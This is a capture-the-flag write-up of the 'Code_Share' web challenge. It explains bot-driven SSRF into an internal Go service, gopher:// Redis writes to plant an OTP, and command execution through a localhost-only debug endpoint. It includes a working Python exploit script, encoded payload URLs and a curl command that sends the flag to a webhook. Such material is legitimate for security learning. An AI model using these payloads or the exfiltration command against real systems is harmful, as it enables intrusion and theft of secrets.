

> Note: I solved this challenge with LLM

Code_Share looked like a harmless code-sharing app at first: a page to render snippets, another page to fetch raw GitHub files, and a report endpoint for an admin bot. The front-end theme suggested client-side filtering or XSS, but the actual solve path lived deeper in the deployment. The challenge was really about pivoting from the public bot into an internal Go service, abusing its SSRF primitive to talk to Redis over `gopher://`, then using a localhost-only debug endpoint to get command execution and exfiltrate the Flag.

This was also a first blood solve.



## Challenge Information

Category: Web Exploitation  
Difficulty: Hard  
Event: Final ARA 7.0  
Attachments / source code: Bun app, Playwright bot, Go internal service, Redis, and a Nginx proxy.  
Goal: Reach the real flag stored inside the internal service environment/runtime

## Initial Analysis

The deployment had four moving parts in `docker-compose.yml`:

- `app`: the public Bun web app
- `bot`: the report bot using Playwright
- `internal`: a Go helper service not meant to be exposed publicly
- `redis`: OTP storage for the internal debug feature

That architecture immediately matters more than the front-end. Any time a challenge gives you a public bot plus internal services on the same Docker network, you should start thinking about SSRF and trust boundaries.

The public reverse proxy confirmed the split:

```nginx
location /report/ {
    proxy_pass http://bot:3000/;
}

location / {
    proxy_pass http://app:1337/;
}
```

So from the internet, we only get:

- the Bun app
- the report endpoint that forwards URLs to the bot

The first pass through the Bun app showed some suspicious but ultimately secondary features:

- `/make` reflects user input into HTML but has a heavy blacklist
- `/get-github` is hidden behind a debug token
- `/report/` lets the bot visit attacker-supplied URLs

The important shift in this challenge is recognizing that the app itself is not the final target. The bot can access internal hostnames like `internal` and `redis`, while we cannot. That makes the bot the real pivot point.

## Recon / Enumeration

If the service had still been online, the first useful checks would have been:

```bash
curl -i http://challenge.ara-its.id:10000/
curl -i http://challenge.ara-its.id:10000/make
curl -i http://challenge.ara-its.id:10000/get-github
curl -i -X POST http://challenge.ara-its.id:10000/report/ \
  -d 'url=http://example.com'
```

From source review, the public Bun app exposes these routes:

- `/`
- `/make`
- `/get-github`

The report bot exposes:

- `/report/`

The bot route accepts nearly any HTTP or HTTPS URL:

```javascript
APPURLREGEX: ^http(|s)://.*$
```

and the bot actually visits the attacker-controlled URL in a real browser:

```javascript
await page.goto(urlToVisit, {
  waitUntil: "load",
  timeout: 10 * 1000,
});
```

That means the report endpoint is effectively a browser-based SSRF primitive into the internal Docker network.

The internal Go service then became the real focus. It exposes two critical endpoints:

- `/healthcheck?check=...`
- `/debug?otp=...&cmd=...`

The key behavior in `/healthcheck` was:

```go
status, err := CurlStatus(check)
```

and `CurlStatus()` does this:

```go
cmd := exec.CommandContext(ctx, "curl", "-s", "-o", "/dev/null", "-w", "%{http_code}", url)
```

This is the heart of the bug. The internal service runs `curl` against attacker-controlled input. That means the `check` parameter is not just an HTTP fetcher. It is a protocol-capable SSRF gadget, and `curl` supports more than HTTP.

## Vulnerability Discovery

The final exploit used a full chain of smaller issues rather than one isolated bug.

### 1. Bot-assisted SSRF into the internal network

The bot allows any URL matching:

```javascript
^http(|s)://.*$
```

So we can submit internal URLs such as:

```text
http://internal:8080/healthcheck?check=...
```

The important point is that the validation only checks the top-level URL visited by the bot. Once the browser reaches `internal:8080`, the internal service itself processes the attacker-controlled `check` parameter.

### 2. Protocol smuggling through `curl`

The Go service uses:

```go
curl -s -o /dev/null -w "%{http_code}" <user-controlled-url>
```

That is not limited to `http://` or `https://`. Since `curl` supports `gopher://`, we can make it speak raw Redis protocol.

This gives us a way to write arbitrary keys into the Redis container from the internal service:

```text
gopher://redis:6379/_<urlencoded RESP payload>
```

### 3. Localhost-only debug endpoint with OTP gate

The internal debug route tries to restrict access by host:

```go
if host != "localhost" && host != "127.0.0.1" {
    http.Error(w, "Forbidden", http.StatusForbidden)
    return
}
```

At first glance, that looks fine. But if we make `/healthcheck` curl:

```text
http://localhost:8080/debug?otp=...&cmd=...
```

then the request originates from the internal service itself, and the `Host` seen by `/debug` is `localhost`. So the localhost check is satisfied automatically.

The OTP check also looks meaningful at first:

```go
exists, err := rdb.Exists(ctx, otp).Result()
...
if exists == 0 {
    http.Error(w, "OTP not found", http.StatusNotFound)
    return
}
```

But because we can already talk to Redis through `gopher://`, we can create the OTP ourselves.

### 4. Direct command execution

Once the host restriction and OTP gate are both bypassed, `/debug` does the worst possible thing:

```go
cmdExec := exec.CommandContext(ctx, "sh", "-c", cmd)
if err := cmdExec.Run(); err != nil {
    ...
}
```

That is direct server-side command execution from a URL parameter.

### 5. Why exfiltration is needed

One subtle point: `/debug` does not return command output. It only returns a success message if the command runs. So the exploit needs an out-of-band exfiltration step.

The local Dockerfile makes it clear where the flag lives:

```dockerfile
CMD ["./internal", "ARA7{FAKE}"]
```

So the flag is passed as an argument to PID 1 inside the internal container. That means this command is enough to recover it:

```sh
ps -o args= 1
```

The solver then extracts the second field and sends it to an external webhook with `curl`.

## Exploitation

The exploit is easiest to understand as two separate bot visits.

### Step 1: Create a fresh OTP in Redis through `gopher://`

The Redis payload is a raw RESP `SET` command:

```text
*3
$3
SET
$<len(otp)>
<otp>
$1
1
```

The solver URL-encodes that and wraps it inside:

```text
gopher://redis:6379/_<RESP>
```

Then it feeds that into the internal service:

```text
http://internal:8080/healthcheck?check=<urlencoded gopher URL>
```

This works because:

- the bot can visit `http://internal:8080/...`
- `/healthcheck` runs `curl` on `check`
- `curl` understands `gopher://`
- Redis receives a valid `SET otp 1`

In the provided solver, this is built as:

```python
redis_cmd = f"*3\r\n$3\r\nSET\r\n${len(otp)}\r\n{otp}\r\n$1\r\n1\r\n"
gopher = "gopher://redis:6379/_" + urllib.parse.quote(redis_cmd, safe="")
step1 = "http://internal:8080/healthcheck?check=" + urllib.parse.quote(gopher, safe="")
```

### Step 2: Trigger the localhost-only debug endpoint

With the OTP now present in Redis, the second request targets:

```text
http://internal:8080/healthcheck?check=http://localhost:8080/debug?otp=<otp>&cmd=<command>
```

The `check` parameter points to `localhost`, so when `/healthcheck` curls it:

- `/debug` sees `Host: localhost`
- the host restriction passes
- the OTP exists in Redis
- the supplied shell command runs

### Step 3: Exfiltrate the flag instead of printing it

Because `/debug` does not return stdout, the command has to leak the flag outward. The archived solver used:

```sh
curl -g <webhook>/$(ps -o args= 1 | head -n1 | cut -d\  -f2)
```

Breakdown:

- `ps -o args= 1` prints the command line of PID 1
- `head -n1` keeps the single output line
- `cut -d\  -f2` extracts the second argument, which is the flag
- `curl -g <webhook>/<flag>` sends the flag to an attacker-controlled endpoint

That is a very pragmatic exfil path because it avoids needing command output in the HTTP response.

### Step 4: Read the webhook request

After the second bot visit completes, the flag appears in the path of the webhook request.

## Request Examples

The two important bot-submitted URLs looked like this conceptually.

First visit, write OTP:

```text
http://internal:8080/healthcheck?check=gopher://redis:6379/_%2A3%0D%0A%243%0D%0ASET%0D%0A%249%0D%0Aotp123456%0D%0A%241%0D%0A1%0D%0A
```

Second visit, trigger debug:

```text
http://internal:8080/healthcheck?check=http://localhost:8080/debug?otp=otp123456&cmd=curl%20-g%20https%3A%2F%2Fwebhook.site%2F...%2F%24%28ps%20-o%20args%3D%201%20%7C%20head%20-n1%20%7C%20cut%20-d%5C%20%20-f2%29
```

And both were delivered to the bot through the public report endpoint:

```http
POST /report/ HTTP/1.1
Host: challenge.ara-its.id:10000
Content-Type: application/x-www-form-urlencoded

url=http://internal:8080/healthcheck?check=...
```

## Working Exploit Script

Below is a cleaned-up version of the archived solver:

```python
#!/usr/bin/env python3

import json
import random
import ssl
import string
import urllib.parse
import urllib.request

TARGET = "http://challenge.ara-its.id:10000"
WEBHOOK = "https://webhook.site/your-id"


def rand_id(prefix="otp", n=6):
    chars = string.ascii_lowercase + string.digits
    return prefix + "".join(random.choice(chars) for _ in range(n))


def http_request(url, method="GET", data=None, headers=None):
    req = urllib.request.Request(url, data=data, method=method, headers=headers or {})
    ctx = ssl._create_unverified_context()
    with urllib.request.urlopen(req, context=ctx) as r:
        return r.read()


def post_report(url):
    raw = http_request(
        TARGET + "/report/",
        method="POST",
        data=urllib.parse.urlencode({"url": url}).encode(),
        headers={"Content-Type": "application/x-www-form-urlencoded"},
    )
    return json.loads(raw.decode())


otp = rand_id()

redis_cmd = f"*3\\r\\n$3\\r\\nSET\\r\\n${len(otp)}\\r\\n{otp}\\r\\n$1\\r\\n1\\r\\n"
gopher = "gopher://redis:6379/_" + urllib.parse.quote(redis_cmd, safe="")
step1 = "http://internal:8080/healthcheck?check=" + urllib.parse.quote(gopher, safe="")

cmd = f"curl -g {WEBHOOK}/$(ps -o args= 1 | head -n1 | cut -d\\  -f2)"
debug = "http://localhost:8080/debug?otp=" + otp + "&cmd=" + urllib.parse.quote(cmd, safe="")
step2 = "http://internal:8080/healthcheck?check=" + urllib.parse.quote(debug, safe="")

print(post_report(step1))
print(post_report(step2))
print("Check your webhook for the flag")
```

## Getting the Flag

In the local release, the internal container is started with:

```dockerfile
CMD ["./internal", "ARA7{FAKE}"]
```

So locally, the same technique would exfiltrate the fake placeholder value.

On the real challenge server, the flag was passed in the same position to PID 1. The exploit reads that command-line argument and sends it to the webhook. The real captured flag was:

```text
ARA7{I_don't_h4ve_any_IDe4!!c0ngrat5_1f_y0u_not_solved_1t_w1TH_AI}
```

So the local release is useful for understanding the exploit chain, while the live instance returned the real event flag above instead of the bundled `ARA7{FAKE}` placeholder.

## Key Takeaways

- The main bug was not in the visible code editor UI, but in the trust chain between the public bot and internal services.
- A healthcheck endpoint that runs `curl` on attacker input is a powerful SSRF primitive, especially because `curl` supports many protocols.
- Localhost-only checks are not meaningful if another internal endpoint can be tricked into making the request for you.
- OTP protection is useless if the same attacker-controlled chain can also write directly to the OTP backend.
- Command execution without reflected output is still game over if outbound exfiltration is possible.

From a defensive perspective, the fixes are clear:

- never run `curl` or any network client on attacker-controlled URLs
- restrict allowed schemes explicitly, not implicitly
- keep internal debug endpoints disabled in production
- do not gate dangerous functionality with Redis values that can be attacker-influenced
- avoid passing secrets as process arguments, since they are often readable from process listings

## Final Thoughts

Code_Share was a strong finals web challenge because it rewarded reading the whole deployment instead of tunnel-visioning on the public app. The front-end pages were mostly noise. The real solve came from chaining together small infrastructure mistakes: permissive bot URL handling, internal `curl` SSRF, Redis reachability, a localhost-only debug route, and an RCE sink with a predictable exfil path.
